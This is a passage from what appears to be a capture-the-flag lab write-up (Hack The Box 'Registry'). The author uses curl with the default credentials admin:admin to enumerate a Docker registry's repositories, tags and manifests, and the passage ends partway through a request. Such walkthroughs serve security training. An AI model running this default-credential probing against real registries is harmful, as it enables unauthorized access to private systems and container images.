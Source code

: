 *  subject: CN=docker.registry.htb
*  start date: May  6 21:14:35 2019 GMT
*  expire date: May  3 21:14:35 2029 GMT
*  issuer: CN=Registry
*  SSL certificate verify result: unable to get local issuer certificate (20), continuing anyway.
* Server auth using Basic with user 'admin'
> GET /v2/bolt-image/tags/list HTTP/1.1
> Host: docker.registry.htb
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Tue, 24 Mar 2020 17:17:19 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 40
< Connection: keep-alive
< Docker-Distribution-Api-Version: registry/2.0
< X-Content-Type-Options: nosniff
< Strict-Transport-Security: max-age=63072000; includeSubdomains
< X-Frame-Options: DENY
< X-Content-Type-Options: nosniff
< 
{"name":"bolt-image","tags":["latest"]}
* Connection #0 to host docker.registry.htb left intact
```

As the Repository and Tags seems to be *bolt-image* and *latest*, let's try pulling a list of Blobs and see what's in there.

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ curl -v -X GET -k https://docker.registry.htb/v2/bolt-image/manifests/latest --basic --user admin:admin
Note: Unnecessary use of -X or --request, GET is already inferred.
*   Trying 10.10.10.159:443...
* TCP_NODELAY set
* Connected to docker.registry.htb (10.10.10.159) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/ssl/certs/ca-certificates.crt
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server accepted to use http/1.1
* Server certificate:
*  subject: CN=docker.registry.htb
*  start date: May  6 21:14:35 2019 GMT
*  expire date: May  3 21:14:35 2029 GMT
*  issuer: CN=Registry
*  SSL certificate verify result: unable to get local issuer certificate (20), continuing anyway.
* Server auth using Basic with user 'admin'
> GET /v2/bolt-image/manifests/latest HTTP/1.1
> Host: docker.registry.htb